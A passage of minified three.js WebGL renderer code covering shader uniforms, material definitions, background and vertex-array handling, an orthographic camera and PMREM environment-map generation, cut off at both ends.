di(16777215)}},lights:{ambientLightColor:{value:[]},lightProbe:{value:[]},directionalLights:{value:[],properties:{direction:{},color:{}}},directionalLightShadows:{value:[],properties:{shadowIntensity:1,shadowBias:{},shadowNormalBias:{},shadowRadius:{},shadowMapSize:{}}},directionalShadowMap:{value:[]},directionalShadowMatrix:{value:[]},spotLights:{value:[],properties:{color:{},position:{},direction:{},distance:{},coneCos:{},penumbraCos:{},decay:{}}},spotLightShadows:{value:[],properties:{shadowIntensity:1,shadowBias:{},shadowNormalBias:{},shadowRadius:{},shadowMapSize:{}}},spotLightMap:{value:[]},spotShadowMap:{value:[]},spotLightMatrix:{value:[]},pointLights:{value:[],properties:{color:{},position:{},decay:{},distance:{}}},pointLightShadows:{value:[],properties:{shadowIntensity:1,shadowBias:{},shadowNormalBias:{},shadowRadius:{},shadowMapSize:{},shadowCameraNear:{},shadowCameraFar:{}}},pointShadowMap:{value:[]},pointShadowMatrix:{value:[]},hemisphereLights:{value:[],properties:{direction:{},skyColor:{},groundColor:{}}},rectAreaLights:{value:[],properties:{color:{},position:{},width:{},height:{}}},ltc_1:{value:null},ltc_2:{value:null}},points:{diffuse:{value:new di(16777215)},opacity:{value:1},size:{value:1},scale:{value:1},map:{value:null},alphaMap:{value:null},alphaMapTransform:{value:new ye},alphaTest:{value:0},uvTransform:{value:new ye}},sprite:{diffuse:{value:new di(16777215)},opacity:{value:1},center:{value:new ve(.5,.5)},rotation:{value:0},map:{value:null},mapTransform:{value:new ye},alphaMap:{value:null},alphaMapTransform:{value:new ye},alphaTest:{value:0}}},Sr={basic:{uniforms:Ji([Mr.common,Mr.specularmap,Mr.envmap,Mr.aomap,Mr.lightmap,Mr.fog]),vertexShader:br.meshbasic_vert,fragmentShader:br.meshbasic_frag},lambert:{uniforms:Ji([Mr.common,Mr.specularmap,Mr.envmap,Mr.aomap,Mr.lightmap,Mr.emissivemap,Mr.bumpmap,Mr.normalmap,Mr.displacementmap,Mr.fog,Mr.lights,{emissive:{value:new di(0)}}]),vertexShader:br.meshlambert_vert,fragmentShader:br.meshlambert_frag},phong:{uniforms:Ji([Mr.common,Mr.specularmap,Mr.envmap,Mr.aomap,Mr.lightmap,Mr.emissivemap,Mr.bumpmap,Mr.normalmap,Mr.displacementmap,Mr.fog,Mr.lights,{emissive:{value:new di(0)},specular:{value:new di(1118481)},shininess:{value:30}}]),vertexShader:br.meshphong_vert,fragmentShader:br.meshphong_frag},standard:{uniforms:Ji([Mr.common,Mr.envmap,Mr.aomap,Mr.lightmap,Mr.emissivemap,Mr.bumpmap,Mr.normalmap,Mr.displacementmap,Mr.roughnessmap,Mr.metalnessmap,Mr.fog,Mr.lights,{emissive:{value:new di(0)},roughness:{value:1},metalness:{value:0},envMapIntensity:{value:1}}]),vertexShader:br.meshphysical_vert,fragmentShader:br.meshphysical_frag},toon:{uniforms:Ji([Mr.common,Mr.aomap,Mr.lightmap,Mr.emissivemap,Mr.bumpmap,Mr.normalmap,Mr.displacementmap,Mr.gradientmap,Mr.fog,Mr.lights,{emissive:{value:new di(0)}}]),vertexShader:br.meshtoon_vert,fragmentShader:br.meshtoon_frag},matcap:{uniforms:Ji([Mr.common,Mr.bumpmap,Mr.normalmap,Mr.displacementmap,Mr.fog,{matcap:{value:null}}]),vertexShader:br.meshmatcap_vert,fragmentShader:br.meshmatcap_frag},points:{uniforms:Ji([Mr.points,Mr.fog]),vertexShader:br.points_vert,fragmentShader:br.points_frag},dashed:{uniforms:Ji([Mr.common,Mr.fog,{scale:{value:1},dashSize:{value:1},totalSize:{value:2}}]),vertexShader:br.linedashed_vert,fragmentShader:br.linedashed_frag},depth:{uniforms:Ji([Mr.common,Mr.displacementmap]),vertexShader:br.depth_vert,fragmentShader:br.depth_frag},normal:{uniforms:Ji([Mr.common,Mr.bumpmap,Mr.normalmap,Mr.displacementmap,{opacity:{value:1}}]),vertexShader:br.meshnormal_vert,fragmentShader:br.meshnormal_frag},sprite:{uniforms:Ji([Mr.sprite,Mr.fog]),vertexShader:br.sprite_vert,fragmentShader:br.sprite_frag},background:{uniforms:{uvTransform:{value:new ye},t2D:{value:null},backgroundIntensity:{value:1}},vertexShader:br.background_vert,fragmentShader:br.background_frag},backgroundCube:{uniforms:{envMap:{value:null},flipEnvMap:{value:-1},backgroundBlurriness:{value:0},backgroundIntensity:{value:1},backgroundRotation:{value:new ye}},vertexShader:br.backgroundCube_vert,fragmentShader:br.backgroundCube_frag},cube:{uniforms:{tCube:{value:null},tFlip:{value:-1},opacity:{value:1}},vertexShader:br.cube_vert,fragmentShader:br.cube_frag},equirect:{uniforms:{tEquirect:{value:null}},vertexShader:br.equirect_vert,fragmentShader:br.equirect_frag},distanceRGBA:{uniforms:Ji([Mr.common,Mr.displacementmap,{referencePosition:{value:new Xe},nearDistance:{value:1},farDistance:{value:1e3}}]),vertexShader:br.distanceRGBA_vert,fragmentShader:br.distanceRGBA_frag},shadow:{uniforms:Ji([Mr.lights,Mr.fog,{color:{value:new di(0)},opacity:{value:1}}]),vertexShader:br.shadow_vert,fragmentShader:br.shadow_frag}};Sr.physical={uniforms:Ji([Sr.standard.uniforms,{clearcoat:{value:0},clearcoatMap:{value:null},clearcoatMapTransform:{value:new ye},clearcoatNormalMap:{value:null},clearcoatNormalMapTransform:{value:new ye},clearcoatNormalScale:{value:new ve(1,1)},clearcoatRoughness:{value:0},clearcoatRoughnessMap:{value:null},clearcoatRoughnessMapTransform:{value:new ye},dispersion:{value:0},iridescence:{value:0},iridescenceMap:{value:null},iridescenceMapTransform:{value:new ye},iridescenceIOR:{value:1.3},iridescenceThicknessMinimum:{value:100},iridescenceThicknessMaximum:{value:400},iridescenceThicknessMap:{value:null},iridescenceThicknessMapTransform:{value:new ye},sheen:{value:0},sheenColor:{value:new di(0)},sheenColorMap:{value:null},sheenColorMapTransform:{value:new ye},sheenRoughness:{value:1},sheenRoughnessMap:{value:null},sheenRoughnessMapTransform:{value:new ye},transmission:{value:0},transmissionMap:{value:null},transmissionMapTransform:{value:new ye},transmissionSamplerSize:{value:new ve},transmissionSamplerMap:{value:null},thickness:{value:0},thicknessMap:{value:null},thicknessMapTransform:{value:new ye},attenuationDistance:{value:0},attenuationColor:{value:new di(0)},specularColor:{value:new di(1,1,1)},specularColorMap:{value:null},specularColorMapTransform:{value:new ye},specularIntensity:{value:1},specularIntensityMap:{value:null},specularIntensityMapTransform:{value:new ye},anisotropyVector:{value:new ve},anisotropyMap:{value:null},anisotropyMapTransform:{value:new ye}}]),vertexShader:br.meshphysical_vert,fragmentShader:br.meshphysical_frag};const Er={r:0,b:0,g:0},wr=new In,Tr=new Sn;function Ar(t,e,n,i,r,a,o){const s=new di(0);let l,c,h=!0===a?0:1,u=null,d=0,p=null;function f(t){let i=!0===t.isScene?t.background:null;if(i&&i.isTexture){i=(t.backgroundBlurriness>0?n:e).get(i)}return i}function m(e,n){e.getRGB(Er,Qi(t)),i.buffers.color.setClear(Er.r,Er.g,Er.b,n,o)}return{getClearColor:function(){return s},setClearColor:function(t,e=1){s.set(t),h=e,m(s,h)},getClearAlpha:function(){return h},setClearAlpha:function(t){h=t,m(s,h)},render:function(e){let n=!1;const r=f(e);null===r?m(s,h):r&&r.isColor&&(m(r,1),n=!0);const a=t.xr.getEnvironmentBlendMode();"additive"===a?i.buffers.color.setClear(0,0,0,1,o):"alpha-blend"===a&&i.buffers.color.setClear(0,0,0,0,o),(t.autoClear||n)&&(i.buffers.depth.setTest(!0),i.buffers.depth.setMask(!0),i.buffers.color.setMask(!0),t.clear(t.autoClearColor,t.autoClearDepth,t.autoClearStencil))},addToRenderList:function(e,n){const i=f(n);i&&(i.isCubeTexture||i.mapping===O)?(void 0===c&&(c=new Yi(new Zi(1,1,1),new er({name:"BackgroundCubeMaterial",uniforms:$i(Sr.backgroundCube.uniforms),vertexShader:Sr.backgroundCube.vertexShader,fragmentShader:Sr.backgroundCube.fragmentShader,side:1,depthTest:!1,depthWrite:!1,fog:!1})),c.geometry.deleteAttribute("normal"),c.geometry.deleteAttribute("uv"),c.onBeforeRender=function(t,e,n){this.matrixWorld.copyPosition(n.matrixWorld)},Object.defineProperty(c.material,"envMap",{get:function(){return this.uniforms.envMap.value}}),r.update(c)),wr.copy(n.backgroundRotation),wr.x*=-1,wr.y*=-1,wr.z*=-1,i.isCubeTexture&&!1===i.isRenderTargetTexture&&(wr.y*=-1,wr.z*=-1),c.material.uniforms.envMap.value=i,c.material.uniforms.flipEnvMap.value=i.isCubeTexture&&!1===i.isRenderTargetTexture?-1:1,c.material.uniforms.backgroundBlurriness.value=n.backgroundBlurriness,c.material.uniforms.backgroundIntensity.value=n.backgroundIntensity,c.material.uniforms.backgroundRotation.value.setFromMatrix4(Tr.makeRotationFromEuler(wr)),c.material.toneMapped=Pe.getTransfer(i.colorSpace)!==Wt,u===i&&d===i.version&&p===t.toneMapping||(c.material.needsUpdate=!0,u=i,d=i.version,p=t.toneMapping),c.layers.enableAll(),e.unshift(c,c.geometry,c.material,0,0,null)):i&&i.isTexture&&(void 0===l&&(l=new Yi(new xr(2,2),new er({name:"BackgroundMaterial",uniforms:$i(Sr.background.uniforms),vertexShader:Sr.background.vertexShader,fragmentShader:Sr.background.fragmentShader,side:0,depthTest:!1,depthWrite:!1,fog:!1})),l.geometry.deleteAttribute("normal"),Object.defineProperty(l.material,"map",{get:function(){return this.uniforms.t2D.value}}),r.update(l)),l.material.uniforms.t2D.value=i,l.material.uniforms.backgroundIntensity.value=n.backgroundIntensity,l.material.toneMapped=Pe.getTransfer(i.colorSpace)!==Wt,!0===i.matrixAutoUpdate&&i.updateMatrix(),l.material.uniforms.uvTransform.value.copy(i.matrix),u===i&&d===i.version&&p===t.toneMapping||(l.material.needsUpdate=!0,u=i,d=i.version,p=t.toneMapping),l.layers.enableAll(),e.unshift(l,l.geometry,l.material,0,0,null))}}}function Cr(t,e){const n=t.getParameter(t.MAX_VERTEX_ATTRIBS),i={},r=c(null);let a=r,o=!1;function s(e){return t.bindVertexArray(e)}function l(e){return t.deleteVertexArray(e)}function c(t){const e=[],i=[],r=[];for(let t=0;t<n;t++)e[t]=0,i[t]=0,r[t]=0;return{geometry:null,program:null,wireframe:!1,newAttributes:e,enabledAttributes:i,attributeDivisors:r,object:t,attributes:{},index:null}}function h(){const t=a.newAttributes;for(let e=0,n=t.length;e<n;e++)t[e]=0}function u(t){d(t,0)}function d(e,n){const i=a.newAttributes,r=a.enabledAttributes,o=a.attributeDivisors;i[e]=1,0===r[e]&&(t.enableVertexAttribArray(e),r[e]=1),o[e]!==n&&(t.vertexAttribDivisor(e,n),o[e]=n)}function p(){const e=a.newAttributes,n=a.enabledAttributes;for(let i=0,r=n.length;i<r;i++)n[i]!==e[i]&&(t.disableVertexAttribArray(i),n[i]=0)}function f(e,n,i,r,a,o,s){!0===s?t.vertexAttribIPointer(e,n,i,a,o):t.vertexAttribPointer(e,n,i,r,a,o)}function m(){g(),o=!0,a!==r&&(a=r,s(a.object))}function g(){r.geometry=null,r.program=null,r.wireframe=!1}return{setup:function(n,r,l,m,g){let _=!1;const v=function(e,n,r){const a=!0===r.wireframe;let o=i[e.id];void 0===o&&(o={},i[e.id]=o);let s=o[n.id];void 0===s&&(s={},o[n.id]=s);let l=s[a];void 0===l&&(l=c(t.createVertexArray()),s[a]=l);return l}(m,l,r);a!==v&&(a=v,s(a.object)),_=function(t,e,n,i){const r=a.attributes,o=e.attributes;let s=0;const l=n.getAttributes();for(const e in l){if(l[e].location>=0){const n=r[e];let i=o[e];if(void 0===i&&("instanceMatrix"===e&&t.instanceMatrix&&(i=t.instanceMatrix),"instanceColor"===e&&t.instanceColor&&(i=t.instanceColor)),void 0===n)return!0;if(n.attribute!==i)return!0;if(i&&n.data!==i.data)return!0;s++}}return a.attributesNum!==s||a.index!==i}(n,m,l,g),_&&function(t,e,n,i){const r={},o=e.attributes;let s=0;const l=n.getAttributes();for(const e in l){if(l[e].location>=0){let n=o[e];void 0===n&&("instanceMatrix"===e&&t.instanceMatrix&&(n=t.instanceMatrix),"instanceColor"===e&&t.instanceColor&&(n=t.instanceColor));const i={};i.attribute=n,n&&n.data&&(i.data=n.data),r[e]=i,s++}}a.attributes=r,a.attributesNum=s,a.index=i}(n,m,l,g),null!==g&&e.update(g,t.ELEMENT_ARRAY_BUFFER),(_||o)&&(o=!1,function(n,i,r,a){h();const o=a.attributes,s=r.getAttributes(),l=i.defaultAttributeValues;for(const i in s){const r=s[i];if(r.location>=0){let s=o[i];if(void 0===s&&("instanceMatrix"===i&&n.instanceMatrix&&(s=n.instanceMatrix),"instanceColor"===i&&n.instanceColor&&(s=n.instanceColor)),void 0!==s){const i=s.normalized,o=s.itemSize,l=e.get(s);if(void 0===l)continue;const c=l.buffer,h=l.type,p=l.bytesPerElement,m=h===t.INT||h===t.UNSIGNED_INT||s.gpuType===Y;if(s.isInterleavedBufferAttribute){const e=s.data,l=e.stride,g=s.offset;if(e.isInstancedInterleavedBuffer){for(let t=0;t<r.locationSize;t++)d(r.location+t,e.meshPerAttribute);!0!==n.isInstancedMesh&&void 0===a._maxInstanceCount&&(a._maxInstanceCount=e.meshPerAttribute*e.count)}else for(let t=0;t<r.locationSize;t++)u(r.location+t);t.bindBuffer(t.ARRAY_BUFFER,c);for(let t=0;t<r.locationSize;t++)f(r.location+t,o/r.locationSize,h,i,l*p,(g+o/r.locationSize*t)*p,m)}else{if(s.isInstancedBufferAttribute){for(let t=0;t<r.locationSize;t++)d(r.location+t,s.meshPerAttribute);!0!==n.isInstancedMesh&&void 0===a._maxInstanceCount&&(a._maxInstanceCount=s.meshPerAttribute*s.count)}else for(let t=0;t<r.locationSize;t++)u(r.location+t);t.bindBuffer(t.ARRAY_BUFFER,c);for(let t=0;t<r.locationSize;t++)f(r.location+t,o/r.locationSize,h,i,o*p,o/r.locationSize*t*p,m)}}else if(void 0!==l){const e=l[i];if(void 0!==e)switch(e.length){case 2:t.vertexAttrib2fv(r.location,e);break;case 3:t.vertexAttrib3fv(r.location,e);break;case 4:t.vertexAttrib4fv(r.location,e);break;default:t.vertexAttrib1fv(r.location,e)}}}}p()}(n,r,l,m),null!==g&&t.bindBuffer(t.ELEMENT_ARRAY_BUFFER,e.get(g).buffer))},reset:m,resetDefaultState:g,dispose:function(){m();for(const t in i){const e=i[t];for(const t in e){const n=e[t];for(const t in n)l(n[t].object),delete n[t];delete e[t]}delete i[t]}},releaseStatesOfGeometry:function(t){if(void 0===i[t.id])return;const e=i[t.id];for(const t in e){const n=e[t];for(const t in n)l(n[t].object),delete n[t];delete e[t]}delete i[t.id]},releaseStatesOfProgram:function(t){for(const e in i){const n=i[e];if(void 0===n[t.id])continue;const r=n[t.id];for(const t in r)l(r[t].object),delete r[t];delete n[t.id]}},initAttributes:h,enableAttribute:u,disableUnusedAttributes:p}}function Rr(t,e,n){let i;function r(e,r,a){0!==a&&(t.drawArraysInstanced(i,e,r,a),n.update(r,i,a))}this.setMode=function(t){i=t},this.render=function(e,r){t.drawArrays(i,e,r),n.update(r,i,1)},this.renderInstances=r,this.renderMultiDraw=function(t,r,a){if(0===a)return;e.get("WEBGL_multi_draw").multiDrawArraysWEBGL(i,t,0,r,0,a);let o=0;for(let t=0;t<a;t++)o+=r[t];n.update(o,i,1)},this.renderMultiDrawInstances=function(t,a,o,s){if(0===o)return;const l=e.get("WEBGL_multi_draw");if(null===l)for(let e=0;e<t.length;e++)r(t[e],a[e],s[e]);else{l.multiDrawArraysInstancedWEBGL(i,t,0,a,0,s,0,o);let e=0;for(let t=0;t<o;t++)e+=a[t];for(let t=0;t<s.length;t++)n.update(e,i,s[t])}}}function Pr(t,e,n,i){let r;function a(e){if("highp"===e){if(t.getShaderPrecisionFormat(t.VERTEX_SHADER,t.HIGH_FLOAT).precision>0&&t.getShaderPrecisionFormat(t.FRAGMENT_SHADER,t.HIGH_FLOAT).precision>0)return"highp";e="mediump"}return"mediump"===e&&t.getShaderPrecisionFormat(t.VERTEX_SHADER,t.MEDIUM_FLOAT).precision>0&&t.getShaderPrecisionFormat(t.FRAGMENT_SHADER,t.MEDIUM_FLOAT).precision>0?"mediump":"lowp"}let o=void 0!==n.precision?n.precision:"highp";const s=a(o);s!==o&&(console.warn("THREE.WebGLRenderer:",o,"not supported, using",s,"instead."),o=s);const l=!0===n.logarithmicDepthBuffer,c=t.getParameter(t.MAX_TEXTURE_IMAGE_UNITS),h=t.getParameter(t.MAX_VERTEX_TEXTURE_IMAGE_UNITS);return{isWebGL2:!0,getMaxAnisotropy:function(){if(void 0!==r)return r;if(!0===e.has("EXT_texture_filter_anisotropic")){const n=e.get("EXT_texture_filter_anisotropic");r=t.getParameter(n.MAX_TEXTURE_MAX_ANISOTROPY_EXT)}else r=0;return r},getMaxPrecision:a,textureFormatReadable:function(e){return e===nt||i.convert(e)===t.getParameter(t.IMPLEMENTATION_COLOR_READ_FORMAT)},textureTypeReadable:function(n){const r=n===$&&(e.has("EXT_color_buffer_half_float")||e.has("EXT_color_buffer_float"));return!(n!==j&&i.convert(n)!==t.getParameter(t.IMPLEMENTATION_COLOR_READ_TYPE)&&n!==Z&&!r)},precision:o,logarithmicDepthBuffer:l,maxTextures:c,maxVertexTextures:h,maxTextureSize:t.getParameter(t.MAX_TEXTURE_SIZE),maxCubemapSize:t.getParameter(t.MAX_CUBE_MAP_TEXTURE_SIZE),maxAttributes:t.getParameter(t.MAX_VERTEX_ATTRIBS),maxVertexUniforms:t.getParameter(t.MAX_VERTEX_UNIFORM_VECTORS),maxVaryings:t.getParameter(t.MAX_VARYING_VECTORS),maxFragmentUniforms:t.getParameter(t.MAX_FRAGMENT_UNIFORM_VECTORS),vertexTextures:h>0,maxSamples:t.getParameter(t.MAX_SAMPLES)}}function Lr(t){const e=this;let n=null,i=0,r=!1,a=!1;const o=new fr,s=new ye,l={value:null,needsUpdate:!1};function c(t,n,i,r){const a=null!==t?t.length:0;let c=null;if(0!==a){if(c=l.value,!0!==r||null===c){const e=i+4*a,r=n.matrixWorldInverse;s.getNormalMatrix(r),(null===c||c.length<e)&&(c=new Float32Array(e));for(let e=0,n=i;e!==a;++e,n+=4)o.copy(t[e]).applyMatrix4(r,s),o.normal.toArray(c,n),c[n+3]=o.constant}l.value=c,l.needsUpdate=!0}return e.numPlanes=a,e.numIntersection=0,c}this.uniform=l,this.numPlanes=0,this.numIntersection=0,this.init=function(t,e){const n=0!==t.length||e||0!==i||r;return r=e,i=t.length,n},this.beginShadows=function(){a=!0,c(null)},this.endShadows=function(){a=!1},this.setGlobalState=function(t,e){n=c(t,e,0)},this.setState=function(o,s,h){const u=o.clippingPlanes,d=o.clipIntersection,p=o.clipShadows,f=t.get(o);if(!r||null===u||0===u.length||a&&!p)a?c(null):function(){l.value!==n&&(l.value=n,l.needsUpdate=i>0);e.numPlanes=i,e.numIntersection=0}();else{const t=a?0:i,e=4*t;let r=f.clippingState||null;l.value=r,r=c(u,s,e,h);for(let t=0;t!==e;++t)r[t]=n[t];f.clippingState=r,this.numIntersection=d?this.numPlanes:0,this.numPlanes+=t}}}function Dr(t){let e=new WeakMap;function n(t,e){return 303===e?t.mapping=D:304===e&&(t.mapping=I),t}function i(t){const n=t.target;n.removeEventListener("dispose",i);const r=e.get(n);void 0!==r&&(e.delete(n),r.dispose())}return{get:function(r){if(r&&r.isTexture){const a=r.mapping;if(303===a||304===a){if(e.has(r)){return n(e.get(r).texture,r.mapping)}{const a=r.image;if(a&&a.height>0){const o=new hr(a.height);return o.fromEquirectangularTexture(t,r),e.set(r,o),r.addEventListener("dispose",i),n(o.texture,r.mapping)}return null}}}return r},dispose:function(){e=new WeakMap}}}class Ir extends nr{constructor(t=-1,e=1,n=1,i=-1,r=.1,a=2e3){super(),this.isOrthographicCamera=!0,this.type="OrthographicCamera",this.zoom=1,this.view=null,this.left=t,this.right=e,this.top=n,this.bottom=i,this.near=r,this.far=a,this.updateProjectionMatrix()}copy(t,e){return super.copy(t,e),this.left=t.left,this.right=t.right,this.top=t.top,this.bottom=t.bottom,this.near=t.near,this.far=t.far,this.zoom=t.zoom,this.view=null===t.view?null:Object.assign({},t.view),this}setViewOffset(t,e,n,i,r,a){null===this.view&&(this.view={enabled:!0,fullWidth:1,fullHeight:1,offsetX:0,offsetY:0,width:1,height:1}),this.view.enabled=!0,this.view.fullWidth=t,this.view.fullHeight=e,this.view.offsetX=n,this.view.offsetY=i,this.view.width=r,this.view.height=a,this.updateProjectionMatrix()}clearViewOffset(){null!==this.view&&(this.view.enabled=!1),this.updateProjectionMatrix()}updateProjectionMatrix(){const t=(this.right-this.left)/(2*this.zoom),e=(this.top-this.bottom)/(2*this.zoom),n=(this.right+this.left)/2,i=(this.top+this.bottom)/2;let r=n-t,a=n+t,o=i+e,s=i-e;if(null!==this.view&&this.view.enabled){const t=(this.right-this.left)/this.view.fullWidth/this.zoom,e=(this.top-this.bottom)/this.view.fullHeight/this.zoom;r+=t*this.view.offsetX,a=r+t*this.view.width,o-=e*this.view.offsetY,s=o-e*this.view.height}this.projectionMatrix.makeOrthographic(r,a,o,s,this.near,this.far,this.coordinateSystem),this.projectionMatrixInverse.copy(this.projectionMatrix).invert()}toJSON(t){const e=super.toJSON(t);return e.object.zoom=this.zoom,e.object.left=this.left,e.object.right=this.right,e.object.top=this.top,e.object.bottom=this.bottom,e.object.near=this.near,e.object.far=this.far,null!==this.view&&(e.object.view=Object.assign({},this.view)),e}}const Or=[.125,.215,.35,.446,.526,.582],Ur=20,Nr=new Ir,Fr=new di;let kr=null,zr=0,Br=0,Hr=!1;const Vr=(1+Math.sqrt(5))/2,Gr=1/Vr,jr=[new Xe(-Vr,Gr,0),new Xe(Vr,Gr,0),new Xe(-Gr,0,Vr),new Xe(Gr,0,Vr),new Xe(0,Vr,-Gr),new Xe(0,Vr,Gr),new Xe(-1,1,-1),new Xe(1,1,-1),new Xe(-1,1,1),new Xe(1,1,1)];class Wr{constructor(t){this._renderer=t,this._pingPongRenderTarget=null,this._lodMax=0,this._cubeSize=0,this._lodPlanes=[],this._sizeLods=[],this._sigmas=[],this._blurMaterial=null,this._cubemapMaterial=null,this._equirectMaterial=null,this._compileMaterial(this._blurMaterial)}fromScene(t,e=0,n=.1,i=100){kr=this._renderer.getRenderTarget(),zr=this._renderer.getActiveCubeFace(),Br=this._renderer.getActiveMipmapLevel(),Hr=this._renderer.xr.enabled,this._renderer.xr.enabled=!1,this._setSize(256);const r=this._allocateTargets();return r.depthBuffer=!0,this._sceneToCubeUV(t,n,i,r),e>0&&this._blur(r,0,0,e),this._applyPMREM(r),this._cleanup(r),r}fromEquirectangular(t,e=null){return this._fromTexture(t,e)}fromCubemap(t,e=null){return this._fromTexture(t,e)}compileCubemapShader(){null===this._cubemapMaterial&&(this._cubemapMaterial=Kr(),this._compileMaterial(this._cubemapMaterial))}compileEquirectangularShader(){null===this._equirectMaterial&&(this._equirectMaterial=Yr(),this._compileMaterial(this._equirectMaterial))}dispose(){this._dispose(),null!==this._cubemapMaterial&&this._cubemapMaterial.dispose(),null!==this._equirectMaterial&&this._equirectMaterial.dispose()}_setSize(t){this._lodMax=Math.floor(Math.log2(t)),this._cubeSize=Math.pow(2,this._lodMax)}_dispose(){null!==this._blurMaterial&&this._blurMaterial.dispose(),null!==this._pingPongRenderTarget&&this._pingPongRenderTarget.dispose();for(let t=0;t<this._lodPlanes.length;t++)this._lodPlanes[t].dispose()}_cleanup(t){this._renderer.setRenderTarget(kr,zr,Br),this._renderer.xr.enabled=Hr,t.scissorTest=!1,qr(t,0,0,t.width,t.height)}_fromTexture(t,e){t.mapping===D||t.mapping===I?this._setSize(0===t.image.length?16:t.image[0].width||t.image[0].image.width):this._setSize(t.image.width/4),kr=this._renderer.getRenderTarget(),zr=this._renderer.getActiveCubeFace(),Br=this._renderer.getActiveMipmapLevel(),Hr=this._renderer.xr.enabled,this._renderer.xr.enabled=!1;const n=e||this._allocateTargets();return this._textureToCubeUV(t,n),this._applyPMREM(n),this._cleanup(n),n}_allocateTargets(){const t=3*Math.max(this._cubeSize,112),e=4*this._cubeSize,n={magFilter:H,minFilter:H,generateMipmaps:!1,type:$,format:nt,colorSpace:Ht,depthBuffer:!1},i=Xr(t,e,n);if(null===this._pingPongRenderTarget||this._pingPongRenderTarget.width!==t||this._pingPongRenderTarget.height!==e){null!==this._pingPongRenderTarget&&this._dispose(),this._pingPongRenderTarget=Xr(t,e,n);const{_lodMax:i}=this;({sizeLods:this._sizeLods,lodPlanes:this._lodPlanes,sigmas:this._sigmas}=function(t){const e=[],n=[],i=[];let r=t;const a=t-4+1+Or.length;for(let o=0;o<a;o++){const a=Math.pow(2,r);n.push(a);let s=1/a;o>t-4?s=Or[o-t+4-1]:0===o&&(s=0),i.push(s);const l=1/(a-2),c=-l,h=1+l,u=[c,c,h,c,h,h,c,c,h,h,c,h],d=6,p=6,f=3,m=2,g=1,_=new Float32Array(f*p*d),v=new Float32Array(m*p*d),y=new Float32Array(g*p*d);for(let t=0;t<d;t++){const e=t%3*2/3-1,n=t>2?0:-1,i=[e,n,0,e+2/3,n,0,e+2/3,n+1,0,e,n,0,e+2/3,n+1,0,e,n+1,0];_.set(i,f*p*t),v.set(u,m*p*t);const r=[t,t,t,t,t,t];y.set(r,g*p*t)}const x=new Pi;x.setAttribute("position",new yi(_,f)),x.setAttribute("uv",new yi(v,m)),x.setAttribute("faceIndex",new yi(y,g)),e.push(x),r>4&&r--}return{lodPlanes:e,sizeLods:n,sigmas:i}}(i)),this._blurMaterial=function(t,e,n){const i=new Float32Array(Ur),r=new Xe(0,1,0),a=new er({name:"SphericalGaussianBlur",defines:{n:Ur,CUBEUV_TEXEL_WIDTH:1/e,CUBEUV_TEXEL_HEIGHT:1/n,CUBEUV_MAX_MIP:`${t}.0`},uniforms:{envMap:{value:null},samples:{value:1},weights:{value:i},latitudinal:{value:!1},dTheta:{value:0},mipInt:{value:0},poleAxis:{value:r}},vertexShader:Zr(),fragmentShader:"\n\n\t\t\tprecision mediump float;\n\t\t\tprecision mediump int;\n\n\t\t\tvarying vec3 vOutputDirection;\n\n\t\t\tuniform sampler2D envMap;\n\t\t\tuniform int samples;\n\t\t\tuniform float weights[ n ];\n\t\t\tuniform bool latitudinal;\n\t\t\tuniform float dTheta;\n\t\t\tuniform float mipInt;\n\t\t\tuniform vec3 poleAxis;\n\n\t\t\t#define ENVMAP_TYPE_CUBE_UV\n\t\t\t#include <cube_uv_reflection_fragment>\n\n\t\t\tvec3 getSample( float theta, vec3 axis ) {\n\n\t\t\t\tfloat cosTheta = cos( theta );\n\t\t\t\t// Rodrigues' axis-angle rotation\n\t\t\t\tvec3 sampleDirection = vOutputDirection * cosTheta\n\t\t\t\t\t+ cross( axis, vOutputDirection ) * sin( theta )\n\t\t\t\t\t+ axis * dot( axis, vOutputDirection ) * ( 1.0 - cosTheta );\n\n\t\t\t\treturn bilinearCubeUV( envMap, sampleDirection, mipInt );\n\n\t\t\t}\n\n\t\t\tvoid main() {\n\n\t\t\t\tvec3 axis = latitudinal ? poleAxis : cross( poleAxis, vOutputDirection );\n\n\t\t\t\tif ( all( equal( axis, vec3( 0.0 ) ) ) ) {\n\n\t\t\t\t\taxis = vec3( vOutputDirection.z, 0.0, - vOutputDirection.x );\n\n\t\t\t\t}\n\n\t\t\t\taxis = normalize( axis );\n\n\t\t\t\tgl_FragColor = vec4( 0.0, 0.0, 0.0, 1.0 );\n\t\t\t\tgl_FragColor.rgb += weights[ 0 ] * getSample( 0.0, axis );\n\n\t\t\t\tfor ( int i = 1; i < n; i++ ) {\n\n\t\t\t\t\tif ( i >= samples ) {\n\n\t\t\t\t\t\tbreak;\n\n\t\t\t\t\t}\n\n\t\t\t\t\tfloat theta = dTheta * float( i );\n\t\t\t\t\tgl_FragColor.rgb += weights[ i ] * getSample( -1.0 * theta, axis );\n\t\t\t\t\tgl_FragColor.rgb += weights[ i ] * getSample( theta, axis );\n\n\t\t\t\t}\n\n\t\t\t}\n\t\t",blending:0,depthTest:!1,depthWrite:!1});return a}(i,t,e)}return i}_compileMaterial(t){const e=new Yi(this._lodPlanes[0],t);this._renderer.compile(e,Nr)}_sceneToCubeUV(t,e,n,i){const r=new or(90,1,e,n),a=[1,-1,1,1,1,1],o=[1,1,1,-1,-1,-1],s=this._renderer,l=s.autoClear,c=s.toneMapping;s.getClearColor(Fr),s.toneMapping=0,s.autoClear=!1;const h=new gi({name:"PMREM.Background",side:1,depthWrite:!1,depthTest:!1}),u=new Yi(new Zi,h);let d=!1;const p=t.background;p?p.isColor&&(h.color.copy(p),t.background=null,d=!0):(h.color.copy(Fr),d=!0);for(let e=0;e<6;e++){const n=e%3;0===n?(r.up.set(0,a[e],0),r.lookAt(o[e],0,0)):1===n?(r.up.set(0,0,a[e]),r.lookAt(0,o[e],0)):(r.up.set(0,a[e],0),r.lookAt(0,0,o[e]));const l=this._cubeSize;qr(i,n*l,e>2?l:0,l,l),s.setRenderTarget(i),d&&s.render(u,r),s.render(t,r)}u.geometry.dispose(),u.material.dispose(),s.toneMapping=c,s.autoClear=l,t.background=p}_textureToCubeUV(t,e){const n=this._renderer,i=t.mapping===D||t.mapping===I;i?(null===this._cubemapMaterial&&(this._cubemapMaterial=Kr()),this._cubemapMaterial.uniforms.flipEnvMap.value=!1===t.isRenderTargetTexture?-1:1):null===this._equirectMaterial&&(this._equirectMaterial=Yr());const r=i?this._cubemapMaterial:this._equirectMaterial,a=new Yi(this._lodPlanes[0],r);r.uniforms.envMap.value=t;const o=this._cubeSize;qr(e,0,0,3*o,2*o),n.setRenderTarget(e),n.render(a,Nr)}_applyPMREM(t){const e=this._renderer,n=e.autoClear;e.autoClear=!1;const i=this._lodPlanes.length;for(let e=1;e<i;e++){const 